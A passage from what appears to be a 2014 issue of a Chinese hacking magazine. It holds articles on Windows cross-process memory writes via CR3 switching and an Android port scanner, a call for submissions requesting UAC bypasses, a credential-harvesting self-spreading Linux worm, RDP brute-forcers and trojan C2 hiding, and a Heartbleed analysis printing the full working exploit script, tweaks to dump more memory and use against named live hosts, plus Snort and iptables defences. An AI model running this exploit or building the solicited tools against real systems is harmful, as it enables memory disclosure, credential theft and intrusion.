在此我们有必要回顾一下 Windows 中的寻址机制。在我的文章“一次艰辛的寻址之旅”中，我们看到每个进程都有单独的页目录/页表，如图 2 所示，CR3 寄存器里存储的内容实际上就是页目录的物理地址，由页目录进而过渡到页表，直至具体的页面。如果 CR3 指向的地址不同，就会导致选用不同的页目录，从而页表、具体页面也就会完全不同。因此进程切换时，为了更改到新进程的地址空间，就需要更改 CPU 中的 CR3 寄存器，从而切换到新进程的页目录/页表，完成地址空间的切换。说得直白一些，页目录/页表的不同在于 CR3 中的内容，修改 CR3，也就更改了页目录/页表，实际上也就更改了进程的地址空间，因此可以说 CR3 是寻址的原点。CR3 寄存器只有一个，在 CPU 里，当进程 1 中的线程处于运行期间，CR3 中存放的是进程 1 页目录的物理地址；当需要切换到另外一个进程 2 中的线程时，系统获取进程 2 对应的进程管理结构 KPROCESS 中的 DirectoryTableBase[0] 成员内容，这个内容就是该目标进程得到调度时需要填充入 CR3 寄存器中的值，然后将该数值放于 EAX 中，其后使用指令 `MOV CR3, EAX` 切换 CR3，完成进程地址空间的切换。
图 2 寻址的原点在于 CR3

下面我们看下 Windows 在实现跨进程操作中的具体实现。在 Windows 中，跨进程数据操作最典型的应用是 ReadProcessMemory 和 WriteProcessMemory 两个函数，这两个函数在具体实现上非常相似，下面我们以 WriteProcessMemory 函数为例，其原型如下：

```text
WriteProcessMemory
(hProcess, lpBaseAddress, lpBuffer, nSize, lpNumberOfBytesWritten)


```

其中 hProcess 表示目标进程的句柄，lpBaseAddress 表示要写入的起始地址，lpBuffer 表示写入的缓存区地址，nSize 表示要写入缓存区的大小，lpNumberOfBytesWritten 表示返回实际写入的字节。

为了实现这个函数，我们需要解决两个问题：

- 进程 1 的触角如何伸到进程 2 的空间；
- 如何将进程 1 需要写入的数据（lpBuffer 地址中的数据）传递到进程 2 的用户空间。

对于问题 1，思路是这样的：当进程 1 执行 WriteProcessMemory 函数代码时，进入内核空间，而内核代码空间是进程 1 和进程 2 共有的。在内核空间，进程 1 中的代码通过目标进程的句柄，得到保存在该进程对应结构 KPROCESS 中的 DirectoryTableBase[0] 内容，并将该内容填充到 CR3，进而更改 CR3，完成地址空间的切换。此时代码停留在公用部分，但是其用户空间已经转化为进程 2 的，因此此时的内核代码对用户空间地址的操作就是对进程 2 的用户地址空间的操作。当然，一个进程对另外一个进程的操作是一件很有风险的工作，毕竟是人家的地盘，容易产生矛盾、制造不安定因素，所以 Windows 在进程调用跨进程操作时，会对发起者的身份权限进行严格审查，这里就不赘述了。

对于问题 2，数据的传递要将待写入数据（lpBuffer 地址中的数据）写入进程 2 的用户空间。显然在两个进程之间直接拷贝，如将数据从 0x40000000（进程 1）→0x40000000（进程 2），是不可能实现的。实际使用的方法只有一个途径，就是使用进程间的公共部分——内核空间。其思路是将进程 1 中的待拷贝数据映射或拷贝进程 2 的内核空间，当切换 CR3 后，再将这部分数据拷贝进进程 2 的用户空间地址中。那好，思路有了，我们结合图 3 将 WriteProcessMemory 的实现过程简要概括如下：
- 利用 MDL 技术，将用户进程空间的数据映射到内核空间。这样的结果是该数据在用户空间和内核空间各有一个地址，减少了一次将用户空间数据拷贝入内核空间的操作。
- 切换 CR3，进入进程 2 的地址空间。
- 将待拷贝的数据拷入进程 2 的用户空间目的地址，完成本次操作后，切换回 CR3，恢复进程 1 的地址空间。

注意，这些动作都是在 WriteProcessMemory 函数的内核空间部分中实现的，正因为是在内核空间，才能够有权利对用户和内核空间的数据进行拷贝映射。如果简略地描述 Windows 中跨进程操作的实质，就是将实际执行的代码和需要传递的数据都从进程 1 过渡到进程的公用空间——内核空间中，再切换 CR3，完成地址空间的切换，从而实现数据的跨进程操作。

（完）

## Android 系统端口扫描器编写初探

文/图 马智超（DesertEagle）

最近，很想在安卓手机上玩一下端口扫描器。再者，之前没有写过能运行于 Android 系统的端口扫描器，于是想写一个出来。

## 扫描器原理及安卓平台上实现方式简析

我们知道端口有两种：UDP 和 TCP。入侵者如果想要探测目标机开放了哪些端口、提供了哪些服务，就需要先与目标端口建立连接。如果目标主机端口有回复，则说明该端口开放，即为活动端口。所以如果我们想实现能运行于安卓系统的端口扫描器，可以从以下两个思路入手。

- 基于 UDP 扫描实现

UDP 扫描可通过发送没有携带任何数据的 UDP 数据包到目标主机，如果某服务响应一个 UDP 报文，则表明该端口是开放的。我们可以利用这个类：DatagramPacket 实现，这个类代表通过 DatagramSocket 发送或接收的数据报包。它包含很多信息，比如源主机和目标主机的信息等。用法如下：

```text
DatagramPacket (byte[] data, int offset, int length, InetAddress host, int aPort)。
```

构造一个新的 DatagramPacket 对象，将数据发送到参数 host 指定主机上的 aPort 端口。然后再构造 DatagramChannel 对象，DatagramChannel 是一个能收发 UDP 包的通道。因为 UDP 是无连接的网络协议，所以不能像其它通道那样读取和写入。有了这个通道就可以发送和接收数据了。核心代码如下：

```text
DatagramChannel channel = DatagramChannel.open();
连接的套接字通道到远程地址:
localDatagramChannel.connect(new InetSocketAddress(ip, port));
localDatagramChannel.configureBlocking(true);
设置超时时间，通过这个通道发送一个数据：
localDatagramSocket.setSoTimeout(5000);
localDatagramSocket.send();
DatagramPacket l= new DatagramPacket(arrayOfByte, arrayOfByte.length);
localDatagramSocket.receive(l);
……
```

- 基于 TCP 扫描的实现

操作系统提供的 connect() 系统调用，可用来与每一个目标计算机的端口进行连接。如果端口处于侦听状态，那么 connect() 就能成功。否则，这个端口是不能用的，即没有开放。

#### Android 远程监控技术

核心代码如下：

```java
try{
    Socket socket = new Socket();
    SocketAddress socketAddress = new InetSocketAddress(IP, PORT);
    socket.connect(socketAddress,timeout);
    handler.sendEmptyMessage(i);
    socket.close();
}catch(Exception e){
    Log.e("a", e.getMessage());
}


```

其中 IP 为要扫描的 IP，PORT 为要扫描的端口，timeout 为等待建立连接的超时时间。这里用到了 handler 来实现不同线程之间的消息传递，这里传递的是端口信息。后文测试的端口扫描器就是用这种方法实现的。

## 安卓平台端口扫描器测试

为了方便测试，首先搭建了局域网的测试环境，让我的笔记本电脑和手机处在同一无线局域网内，然后查看笔记本的 IP 地址，如图 1 所示。
图 1

在得知笔记本 IP 地址（192.168.137.21）后，就可以用端口扫描器来扫描这个 IP 地址进行测试了，但首先我们先看看本机开放了哪些端口，如图 2 所示。
图 2

我已经把端口扫描器安装在我的 Android 系统的手机上了，打开端口扫描器，如图 3 所示。
图 3

由图 3 可以看到，扫描器的界面中有 IP 地址输入框和扫描端口范围输入框。输入 IP 地址为 192.168.137.21。为了测试，端口范围可以填入 100 到 150，点击扫描按钮即可，测试结果如图 4 所示。
图 4

由图我们可以看到，在端口 100 到 150 范围内，被测笔记本电脑中有 135 和 139 这两个端口开放，和图 2 信息正好匹配。

通过测试，该端口扫描器可以实现对给定的 IP 地址、指定范围的端口进行扫描。

（完）

### 2014 年第 4 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 4 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. Windows 7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows 7 屏幕保护密码的方法。

### 3. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

### 4. Linux 自动检测网络安全

要求：

- 自动收集当前 Linux 系统的信息，如 uname、hosts、passwd、shadow、ifconfig、ps、netstat、history 等；
- 通过我们提供的帐号密码库自动测试远程登录，若登录成功则将远程主机的地址、端口、帐号、密码以及从哪一台机器登录等详细记录；
- 将该程序自动复制到第 2 步成功登录的远程 Linux 主机，并重复 1、2、3 步操作；
- 可以手动制定结束条件，比如测试主机的个数，目的是防止重复登录；
- 将 1、2、3 中收集或记录的信息回传到一开始的主机；
- 完成操作后清除相关的操作记录。

### 5. 暴力破解 3389 远程桌面密码

要求：

- 针对 Windows 3389 远程桌面实现暴力破解密码；
- 读取指定的用户名和密码字典文件；
- 采用多线程；
- 所有函数都必须判断错误值；
- 使用 VC++2008 编译工具实现，控制台程序；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 支持 Windows XP/2003/2008。

### 6. WEB 服务器批量扫描破解

- 针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255

- 针对目标 Web 服务器扫描要求
  - 可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：
    - Tomcat
    - Weblogic
    - Jboss
    - Apache
    - JOnAS
    - WebSphere
    - Lotus Server
    - IIS(Webdav)
    - Axis2
    - Coldfusion
    - Monkey HTTPD
    - Nginx

- 针对目标 Web 服务器后台扫描
  - 针对目标进行后台地址搜索。

- 针对目标 Web 后台密码破解
  - 搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 7. 木马控制端 IP 地址隐藏

要求：

- 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 8. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令帐密暴力破解。

要求：

- 能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 根据抓取提交帐密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录参数，这里的自动指的是根据默认字典；
- 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键词，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的帐密可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破帐密，如用户为 admin，密码可自动填充为域名；用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单帐密；
- 拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 的能力；暴力破解要稳定，后台 URL 字典以及帐密字典可自定义设置等。

### 9. 编写端口扫描器

要求：- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++ 2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

## 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

## 2014 年征稿启示

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求

- 1）技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”、“图2”；
- 2）在稿件末尾请注明您的账户名、银行账号、以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3）投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

> **重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4）稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5）根据稿件质量，分为一等奖、二等奖、三等奖稿件，稿费标准如下：

| 稿件等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 6）稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7）投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

# 黑客防线

总第 160 期 2014

网站全新改版，欢迎访问：http://www.hacker.com.cn

在攻与防的对立统一中寻求突破

2014 年 第四期 黑客防线

- dSploit 中间人嗅探原理浅析
- OpenSSL “心脏出血”漏洞分析及其利用
- 通过 SQL 注入获取某 Linux 服务器权限
- 打造 Android 系统 Web 渗透工具
- 进程边界的局限性——模拟点击卸载 360
- 深入解析 Android 系统屏幕锁
- Struts S016 和 S017 漏洞利用实例
## 《黑客防线》4 期文章目录

总第 160 期 2014 年

#### 漏洞攻防

- OpenSSL “心脏出血”漏洞分析及其利用（simeon）……3
- dSploit 中间人嗅探原理浅析（木羊）……11
- Struts S016 和 S017 漏洞利用实例（simeon）……14
- 通过 SQL 注入获取某 Linux 服务器权限（simeon）……18

#### 编程解析

- 进程边界的局限性——模拟点击卸载 360（李旭昇）……23
- 反调试之遍历驱动名（JoyChou）……28
- Windows 下附加调试技术及 Anti 与 Anti-Anti（木羊）……33
- 编程读取 ADSL 密码（李旭昇）……38

#### Android 远程监控技术

- 深入解析 Android 系统屏幕锁（胡椒和盐）……43
- 打造 Android 系统 Web 渗透工具（马智超）……45

- 2014 年第 5 期杂志特约选题征稿……51
- 2014 年征稿启示……54

## OpenSSL“心脏出血”漏洞分析及其利用

文/图 www.antian365.com simeon

## OpenSSL 漏洞形成原因

4 月 7 日，互联网安全协议 OpenSSL 被曝存在一个十分严重的安全漏洞。在黑客社区，它被命名为“心脏出血”，表明网络上出现了“致命内伤”。利用该漏洞，可以获取约 30% 的 https 开头网址的用户登录账号密码，其中包括购物、网银、社交、门户等类型的知名网站。该漏洞最早公布时间为 4 月 7 日，原文作者 Sean Cassidy 在其 blog 上发表“existential type crisis: Diagnosis of the OpenSSL Heartbleed Bug”（http://blog.existentialize.com/diagnosis-of-the-openssl-heartbleed-bug.html）。2014 年 4 月 7 日 OpenSSL 发布了安全公告，在 OpenSSL 1.0.1 版本中存在严重漏洞（CVE-2014-0160），此次漏洞问题存在于 ssl/d1_both.c 文件中。OpenSSL Heartbleed 模块存在一个 BUG，当攻击者构造一个特殊的数据包，满足用户心跳包中无法提供足够多的数据会导致 memcpy 把 SSLv3 记录之后的数据直接输出，该漏洞导致攻击者可以远程读取存在漏洞版本的 OpenSSL 服务器内存中长 64K 的数据。

- 1）漏洞分析

漏洞存在文件为 ssl/d1_both.c，漏洞的补丁从这行语句开始：

```c
int dtls1_process_heartbeat(SSL *s)
{
    unsigned char *p = &s->s3->rrec.data[0], *pl;
    unsigned short hbtype;
    unsigned int payload;
    unsigned int padding = 16; /* Use minimum padding */
```

结构体 SSL3_RECORD 的定义如下：

```c
typedef struct ssl3_record_st
{
    int type;                /* type of record */
    unsigned int length;     /* How many bytes available */
    unsigned int off;        /* read/write offset into 'buf' */
    unsigned char *data;     /* pointer to the record data */
    unsigned char *input;    /* where the decode bytes are */
    unsigned char *comp;     /* only used with decompression - malloc()ed */
    unsigned long epoch;     /* epoch number, needed by DTLS1 */
    unsigned char seq_num[8];/* sequence number, needed by DTLS1 */
} SSL3_RECORD;
```

每条 SSLv3 记录中包含一个类型域（type）、一个长度域（length）和一个指向记录数据的指针（data）。在 dtls1_process_heartbeat 中：

```c
/* Read type and payload length first */
hbtype = *p++;
n2s(p, payload);
pl = p;
```

SSLv3 记录的第一个字节标明了心跳包的类型。宏 n2s 从指针 p 指向的数组中取出前两个字节，并把它们存入变量 payload 中——这实际上是心跳包载荷的长度域（length）。注意，程序并没有检查这条 SSLv3 记录的实际长度。变量 pl 则指向由访问者提供的心跳包数据。

这个函数的后面进行了以下工作：

```c
unsigned char *buffer, *bp;
int r;

/* Allocate memory for the response, size is 1 byte
 * message type, plus 2 bytes payload length, plus
 * payload, plus padding
 */
buffer = OPENSSL_malloc(1 + 2 + payload + padding);
bp = buffer;
```

所以程序将分配一段由访问者指定大小的内存区域，这段内存区域最大为（65535 + 1 + 2 + 16）个字节。变量 bp 是用来访问这段内存区域的指针。

```c
/* Enter response type, length and copy payload */
*bp++ = TLS1_HB_RESPONSE;
s2n(payload, bp);
memcpy(bp, pl, payload);
```

宏 s2n 与宏 n2s 做的事情正好相反：s2n 读入一个 16bit 长的值，将其存成双字节值，所以 s2n 会将与请求的心跳包载荷长度相同的长度值存入变量 payload。之后程序从 pl 处开始复制 payload 个字节到新分配的 bp 数组中——pl 指向了用户提供的心跳包数据。最后，程序将所有数据发回给用户。

## 2）用户可以控制变量 payload 和 pl 成为可利用漏洞

如果用户并没有在心跳包中提供足够多的数据，会导致什么问题？比如 pl 指向的数据实际上只有一个字节，那么 memcpy 会把这条 SSLv3 记录之后的数据——无论那些数据是什么——都复制出来。

## 可利用 POC 及其测试

## 1）POC 获取

漏洞公布后不久网上就出现了国外牛人们写的 POC，在该漏洞发布的第一时间，我们对此漏洞进行了分析与验证是否能够获取一些敏感信息。漏洞发布的同时，攻击可利用的脚本也已经在网络中流传。下面是漏洞利用脚本的下载地址：

- http://s3.jspenguin.org/ssltest.py（python 脚本）
- http://pan.baidu.com/s/1nt3BnVB（python 脚本）
- https://github.com/decal/ssltest-stls/blob/master/ssltest-stls.py
- https://raw.githubusercontent.com/decal/ssltest-stls/master/ssltest-stls.py

网上在线检测：

- http://possible.lv/tools/hb/
- http://filippo.io/Heartbleed/

## 2）POC 代码

将以下代码保存为 ssltest.py 文件，POC 代码如下：

```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford
(jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00    dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc    0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03    90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22    c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35    00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d    c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32    00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96    00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15    00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff    01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34    00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09    00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15    00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f    00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
```

```python
lin = [c for c in s[b:b + 16]]
hxdat = ''.join('%02X' % ord(c) for c in lin)
pdat = ''.join((c if 32 <= ord(c) <= 126 else '.') for c in lin)
print '  %04x: %-48s %s' % (b, hxdat, pdat)
print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print '... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay


def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
```

## 3）具体测试方法

openssl.py / ssltest.py，用法：python openssl.py ip/域名 -p 端口。  
网上 POC 公布的代码每次只 dump 16KB 内存，如果需要 dump 64KB 内存，需要做如下修改：

```python
hb = h2bin("""
18 03 02 00 03
01 40 00    // 此处修改为 01 ff ff
""")


```

将 “for b in xrange(0, len(s), 16)” 改成 “for b in xrange(0, len(s), 64)”，后期还出现了支持 SMTP、POP3、IMAP、FTP、XMPP 的 POC（http://lcx.cc/?i=4276）。

## OpenSSL 检测技术

利用 OpenSSL 心脏出血漏洞利用代码，笔者第一时间进行测试。测试分为两个方面：一个是通过网页在线检测，另外就是通过脚本直接获取内存内容。

### 1）网页检测

网页检测使用网站“http://possible.lv/tools/hb/”效果较好。打开该页面后，在输入框中输入网站域名地址即可；如果默认端口不是 443，则需要输入具体端口，例如 www.somesite.com:4433，则表示端口为 4433。检测会有进度条显示，100% 后会在下面显示检测结果。如图 1 所示，表示不存在漏洞。随机更换一个网站地址，如图 2 所示，获取该网站存在漏洞。
图 1 在线检测漏洞
图 2 获取 kuaiyinpan.com 存在漏洞

### 2）通过 py 脚本进行检测

在 Linux 终端窗口中输入“python ssltest.py 66.175.219.225 -p 443”命令，如图 3 所示，获取该漏洞提示信息“ver=0302”，该版本表示存在漏洞。在获取的内容中可能会包含用户密码和用户名等信息。
图 3 通过 py 脚本进行测试

### 3）对存在漏洞的网站进行扫描检测

下载 nmap 最新版本，在本地进行编译，或者使用命令进行更新“nmap --script-updatedb”，或者下载“wget https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse”。测试过程中直接下载该脚本会缺少一些模块，然后通过以下命令进行扫描：

```bash
nmap -p 443 --script ssl-heartbleed 66.175.219.225


```

如果存在漏洞，则会给出该漏洞的相关提示，如图 4 所示。
> 图 4 扫描检测存在漏洞服务器

### 4）通用 Snort 规则检测

SSL 协议是加密的，目前没有找到提取可匹配规则的方法。我们尝试编写了一条基于返回数据大小的检测规则，其有效性我们会继续验证，如果有问题欢迎反馈。

```snort
alert tcp $EXTERNAL_NET any -> $HOME_NET 443 (msg:"openssl Heartbleed attack";flow:to_server,established; content:"|18 03|"; depth: 3; byte_test:2, >, 200, 3, big; byte_test:2, <, 16385, 3, big; threshold:type limit, track by_src, count 1, seconds 600; reference:cve,2014-0160; classtype:bad-unknown; sid:20140160; rev:2;)
```

Snort 规则说明：此次漏洞主要针对 SSL 协议，是针对心跳数据包前 4 个字节中包含 `\x18\x03`，而在数据包第 5 个字节和第 6 个字节的数值按大端模式转化成数值在 200 和 16385 之间，再后面则是一些报警和过滤功能。日志记录里，每 10 分钟记录一次。

## 修复建议

- 1）**OpenSSL 心脏出血漏洞受影响版本**

  通过实际测试，受影响的版本有 OpenSSL 1.0.2-beta 和 OpenSSL 1.0.1 - OpenSSL 1.0.1f；不受影响的版本有 OpenSSL 1.0.1g is NOT vulnerable、OpenSSL 1.0.0 branch is NOT vulnerable 和 OpenSSL 0.9.8 branch is NOT vulnerable。

- 2）**修复建议**

  ① 升级 OpenSSL 软件。建议服务器管理员使用 1.0.1g 版，或使用 `-DOPENSSL_NO_HEARTBEATS` 选项重新编译 OpenSSL。  
  （OpenSSL 官方）最新版本升级地址为：`https://www.openssl.org/source/`。

  ② 重新编译 OpenSSL 并去掉 `DOPENSSL_NO_HEARTBEATS` 扩展。

```bash
$ echo -e "B\n" | openssl s_client -connect targetwebsite:443 -tlsextdebug 2>&1 | grep 'heartbeat'
```

  ③ 如果不能升级 OpenSSL，可以更新 IPTable 防火墙规则。

```bash
## Log rules
iptables -t filter -A INPUT -p tcp --dport 443 -m u32 --u32 "52=0x18030000:0x1803FFFF" -j LOG --log-prefix "BLOCKED: HEARTBEAT"

# Block rules
iptables -t filter -A INPUT -p tcp --dport 443 -m u32 --u32 "52=0x18030000:0x1803FFFF" -j DROP
```

- 3）**CentOS 修复方法参考**

  ① yum 方法安装

```bash
yum search openssl
yum install openssl
```

```bash
/etc/init.d/nginx restart    # 重启 nginx
② 下载编译安装
wget http://www.openssl.org/source/openssl-1.0.1g.tar.gz
cd openssl-1.0.1g
./config
make && make install
/etc/init.d/nginx restart    # 重启 nginx


```

## dSploit 中间人嗅探原理浅析

文/图 木羊

